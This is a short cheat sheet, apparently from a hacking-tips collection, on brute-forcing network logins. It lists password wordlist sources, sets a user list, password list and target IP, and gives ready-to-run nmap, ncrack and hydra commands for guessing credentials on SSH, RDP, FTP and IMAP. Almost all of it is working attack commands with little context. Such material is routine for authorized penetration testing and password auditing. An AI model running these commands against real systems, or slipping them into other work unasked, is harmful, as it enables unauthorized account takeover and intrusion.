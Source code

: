 Username & Password lists:
* `/usr/share/nmap/nselib/data`  
* `/usr/share/wordlists/seclists/Passwords`
* https://github.com/berzerk0/Probable-Wordlists - >THC's FAVORITE<
* https://github.com/danielmiessler/SecLists  
* https://wordlists.assetnote.io  
* https://weakpass.com  
* https://crackstation.net/  


Set **U**sername/**P**assword list and **T**arget host.
```shell
ULIST="/usr/share/wordlists/brutespray/mysql/user"
PLIST="/usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt"
T="192.168.0.1"
```

Useful **Nmap** parameters:
```shell
--script-args userdb="${ULIST}",passdb="${PLIST}",brute.firstOnly
```

Useful **Ncrack** parameters:
```shell
-U "${ULIST}"
-P "${PLIST}"
```

Useful **Hydra** parameters:
```shell
-t4      # Limit to 4 tasks
-l root  # Set username
-V       # Show each login/password attempt
-s 31337 # Set port
-S       # Use SSL
-f       # Exit after first valid login
```


```shell
## SSH
nmap -p 22 --script ssh-brute --script-args ssh-brute.timeout=4s "$T"
ncrack -P "${PLIST}" --user root "ssh://${T}"
hydra -P "${PLIST}" -l root "ssh://$T"
```

```shell
## Remote Desktop Protocol / RDP
ncrack -P "${PLIST}" --user root -p3389 "${T}"
hydra -P "${PLIST}" -l root "rdp://$T"
```

```shell
## FTP
hydra -P "${PLIST}" -l user "ftp://$T"
```

```shell
## IMAP (email)
nmap -p 143,993 --script imap-brute "$T"
```
